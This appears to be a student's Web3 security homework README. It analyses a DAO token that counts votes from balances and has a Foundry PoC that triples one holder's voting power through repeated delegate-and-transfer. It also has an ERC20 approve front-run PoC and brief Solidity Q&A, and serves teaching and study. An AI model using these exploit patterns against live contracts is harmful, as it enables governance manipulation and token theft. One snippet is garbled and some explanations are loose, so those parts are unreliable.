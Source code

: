 # Web3-Security-Dev-Batch-1-HW W2

## Vulnerability Analysis

#### 1. Balance account for voting power

token balance should not account for voting power, can use `ERC20Votes.sol` for better checkpoints implementations, `ERC20Votes.sol` extension keeps a history (checkpoints) of each account's vote power, the downside is that it
requires users to delegate to themselves in order to activate checkpoints and have their voting power tracked, and to keep in mind is that voting is usually handled by governance contracts.

ps: also it save more gas, can vote without spending gas, because the delegatee is using voting on their behalf

`ERC20Votes.sol` source : <https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/extensions/ERC20Votes.sol>

```sh
function _delegate uint256 _addrBalance = balanceOf(_addr);
```

#### 2. The votes getter function didn't check the availability of checkpoints

`getVotes` function doesn't check the availability of checkpoints. This means that vote powers can still remain transferable, even after member has delegated to another user and transferred tokens to other members

## POC

* Hacker control `alice` account to delegates vote power to himself, so he can create a proposal or vote on a proposal
* After delegation completed, transfer 1000 tokens to other dao member (bob, Carol), repeat the same process
* Control bob account to delegates more vote power to hacker himself, repeat the same process for Carol
* Finish all the delegations & transfer tokens to hacker himself
* Now hacker has 3000 vTokens and also 1000 vTokens

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "contracts/hack/governance/DaoToken.sol";

contract exploitTest is Test {
 DaoToken daoToken;
 address public owner = address(0);
 address public hacker =address(1337);

 address public alice= address(1);
 address public bob = address(2);
 address public carol = address(3);

 function setUp() public {
  vm.startPrank(owner);
  daoToken = new DaoToken();
  daoToken.mint(alice, 1000);
  vm.stopPrank();
  }

 function testExploit() public {
    vm.startPrank(alice);
    //hacker control alice account to delegates vote power to himself, so he can create a proposal or vote on a proposal
    daoToken.delegate(hacker);
    daoToken.getVotes(alice);
    //transfer 1000 tokens to other dao member (bob, Carol)
    daoToken.transfer(bob, 1000);
    vm.startPrank(bob);
    // control bob account to delegates more vote power to hacker himself, repeat the same process for Carol
    daoToken.delegate(hacker);
    daoToken.transfer(carol, 1000);

    vm.startPrank(carol);
    daoToken.delegate(hacker);


    // now hacker should has 3000 votes, hacker also wanna transfer 1000 tokens to himself
    daoToken.transfer(hacker, 1000);
    vm.stopPrank();

 uint hacker_vote = daoToken.getVotes(hacker);
    console.log("Vote Count of Hacker before attack: %s ", hacker_vote);

 uint hacker_balance= daoToken.balanceOf(hacker);
    console.log("Hacker's daoToken after the attack: %s: ", hacker_balance);

 assertEq(hacker_vote , 3000);
 assertEq(hacker_balance, 1000);
    }

}
```

### Improvements

1. Inherited `ERC20Permit` functionality allows for the delegation of voting power by signature.

2. Inherited `ERC20Votes` to extend snapshot and delegated voting abilities

## Group Assignments

<https://docs.google.com/presentation/d/1rjvzU7y3j6_k4SY-PuKBs-F7jb4E4UZwPqKDohSYJas/edit#slide=id.g269bc814b66_0_107>

##### Q: Why the state variable _totalSupply is set to private?

these private states indicate that these variables should not be allowd to be modified or also be inherited the corresponding contract

##### Q: Why the state variable _balances is set to private?

The methodology remains the same, ensuring that they are not visible in derived contracts

##### Q: What is difference between _msgSender() and msg.sender?

The _msgSender() is a virtual function that can be overridden, so for a basic smart contract, it doesn't do much, it just returns msg.sender

But for a GSN-like contract, _msgSender is overridden and_msgSender would return the sender via payload(maybe msg.data) and not the actual caller

##### Q: Why the state variable _allowances is set to private ?

The methodology remains the same, ensuring that they are not visible in derived contracts

##### Q: What is the potential risk of directly overwriting the old value of _allowance? (Write a PoC to validate it)

Poc Action : Allowance front-run attack

* Front run ERC20 approve
* Owner approves 1000
* Spender spend 1000
* Owner updates approval to 100
* Spender spend 100

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.22;

import {Test, console2} from "forge-std/Test.sol";
import {Token} from "../src/Token.sol";

contract ERC20ApproveTest is Test {
    // Front run ERC20 approve
    // 1. Owner approves 1000
    // 2. Spender spend 1000
    // 3. Owner updates approval to 100
    // 4. Spender spend 100
    Token private token;
    address private constant owner = address(11);
    address private constant spender = address(12);

    function setUp() public {
        token = new Token("token", "TOKEN", 18);
        token.mint(owner, 2000);
    }

    function test() public {
        // Owner approves 1000
        vm.prank(owner);
        token.approve(spender, 1000);

        // Spender spends 1000
        vm.prank(spender);
        token.transferFrom(owner, spender, 1000);

        // Owner updates approval to 100
        vm.prank(owner);
        token.approve(spender, 100);

        // Spender spends 100
        vm.prank(spender);
        token.transferFrom(owner, spender, 100);

        console2.log("spender balance", token.balanceOf(spender));
    }
}
```

##### Q: Zero address is invalid in ERC721, but not in ERC20 and ERC1155. Why?

ERC-20 and ERC-1155, on the other hand, do not have this restriction by default, and the decision to support or disallow transfers to the zero address is left to the developers implementing those standards

##### Q: What doest the assembly block actually do?

Solidity Assembly allowing developers to write lower-level code directly

